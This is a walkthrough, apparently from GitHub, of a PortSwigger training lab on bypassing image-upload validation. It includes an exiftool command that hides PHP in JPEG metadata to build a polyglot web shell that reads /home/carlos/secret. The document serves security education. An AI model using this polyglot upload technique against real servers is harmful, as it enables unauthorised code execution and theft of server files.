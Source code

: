 # Lab: Remote code execution via polyglot web shell upload

## Description

 This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 

## Tip from portswigger

Flawed validation of the file's contents

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes FF D8 FF.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata. 

## Man page for exiftool

On comments

![image](https://user-images.githubusercontent.com/83407557/171235222-c13c726f-73e0-4fde-a934-6ac54e016285.png)

On outputting to a new file

![image](https://user-images.githubusercontent.com/83407557/171235390-3415000e-5037-491e-8608-3ee7c7e6d07d.png)

# Step 1 Map out the normal functionality of the image upload

The functionality seems very similar to the previous labs, only none of the attacks that have worked so far are working here.

# Step 2 Create a polyglot using exiftool

Using it to view and unmodified nana.jpg

![image](https://user-images.githubusercontent.com/83407557/171236157-69dcb82e-4ba8-456c-8d74-737e8b22dc6e.png)

Adding a comment to insert my php code and outputting a new polyglot called nana.php

```bash
exiftool -Comment="<?php echo 'Executed Code--> ' . file_get_contents('/home/carlos/secret') . ' <--Executed Code'; ?>" nana.jpg -o nana.php
```
![image](https://user-images.githubusercontent.com/83407557/171237302-98de1d70-2d88-41f0-9707-7613b2dc9e08.png)

Running exiftool on this new file I can see that it has my code as a comment but is keeping the jpg extension and jpeg filetype.

![image](https://user-images.githubusercontent.com/83407557/171238960-1885e295-12aa-4fe4-a83d-f1ecbf8f224a.png)

# Step 3 upload polyglot

While trying to upload the php code normally I get this error

![image](https://user-images.githubusercontent.com/83407557/171241755-868945da-9909-41d4-aaf1-06d9156bfafc.png)

However, my polyglot uploads just fine

![image](https://user-images.githubusercontent.com/83407557/171242528-2d2fb372-0728-430b-934c-e66e9da706a9.png)

# Step 4 execute polyglot on server

Going to the directory /files/avatars/nana.php it still tries to load it as an image...however I can see the secret the response between my execturd code markers:

![image](https://user-images.githubusercontent.com/83407557/171244335-becb6382-a298-470c-b87e-b9741f85073a.png)

This tells me the code did execute on the server and highlighted above is the secret.

# Step 5 submit secret

![image](https://user-images.githubusercontent.com/83407557/171245275-a9d3364d-bbbf-424b-9b97-c45823c63e35.png)

![image](https://user-images.githubusercontent.com/83407557/171245489-00a7fe80-a349-4de2-8404-a9f183c4dcff.png)



